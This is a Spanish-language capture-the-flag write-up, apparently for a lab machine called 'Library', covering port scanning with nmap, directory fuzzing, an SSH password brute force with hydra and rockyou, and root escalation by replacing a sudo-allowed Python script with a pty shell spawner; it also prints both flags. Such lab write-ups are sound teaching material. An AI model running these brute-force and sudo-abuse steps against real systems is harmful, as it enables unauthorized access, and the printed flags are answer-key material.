

# Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.



## Fuzzing web

Accedemos al sitio web. 


Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.


El único interesante puede ser el directorio de  `/images/`


También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.


Que puede ser `meliodas`por como vemos en la página anterior.


Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.


```
ssh meliodas@10.10.31.106
```


Obtenemos la flag de`user.txt`.


```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```


Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.


Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```


Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```


Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.


```
e8c8c6c256c35515d1d344ee0488c617
```


